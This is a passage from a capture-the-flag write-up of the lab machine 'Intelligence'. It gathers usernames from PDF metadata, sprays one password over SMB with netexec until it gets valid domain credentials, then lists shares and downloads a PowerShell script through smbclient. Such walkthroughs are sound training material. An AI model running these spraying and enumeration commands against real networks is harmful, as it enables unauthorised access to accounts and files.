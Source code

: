 However, we don’t have any users. We could enumerate them via Kerberos but inspecting the metadata tags were an easier path in this box.

```bash
exiftool *.pdf | grep -i creator | awk '{print $3}' | sort -u > users.list
```

# Exploitation

Now that we have a wordlist of potential usernames and a password, let’s spread it.

```bash
netexec smb 10.129.95.154 -u users.list -p <REDACTED> --continue-on-success | grep -v '[-]'
SMB         10.129.95.154   445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False)
SMB         10.129.95.154   445    DC               [+] intelligence.htb\Tiffany.Molina:<REDACTED>
```

Yes sir! We are authenticated in the Domain Controller. There are non-default SMB shares and we have read permissions to them.

```bash
netexec smb 10.129.95.154 -u Tiffany.Molina -p <REDACTED> --shares
SMB         10.129.95.154   445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False)
SMB         10.129.95.154   445    DC               [+] intelligence.htb\Tiffany.Molina:<REDACTED>
SMB         10.129.95.154   445    DC               [*] Enumerated shares
SMB         10.129.95.154   445    DC               Share           Permissions     Remark
SMB         10.129.95.154   445    DC               -----           -----------     ------
SMB         10.129.95.154   445    DC               ADMIN$                          Remote Admin
SMB         10.129.95.154   445    DC               C$                              Default share
SMB         10.129.95.154   445    DC               IPC$            READ            Remote IPC
SMB         10.129.95.154   445    DC               IT              READ            
SMB         10.129.95.154   445    DC               NETLOGON        READ            Logon server share 
SMB         10.129.95.154   445    DC               SYSVOL          READ            Logon server share 
SMB         10.129.95.154   445    DC               Users           READ            
```

# Lateral Movement

The IT share has a PowerShell script.

```bash
smbclient -U "intelligence.htb\\Tiffany.Molina%<REDACTED>" //10.129.95.154/IT -c ls
  .                                   D        0  Mon Apr 19 01:50:55 2021
  ..                                  D        0  Mon Apr 19 01:50:55 2021
  downdetector.ps1                    A     1046  Mon Apr 19 01:50:55 2021
  
 smbclient -U "intelligence.htb\\Tiffany.Molina%<REDACTED>" //10.129.95.154/IT -c "get downdetector.ps1"
 getting file \downdetector.ps1 of size 1046 as downdetector.ps1 (4.2 KiloBytes/sec) (average 4.2 KiloBytes/sec)
```

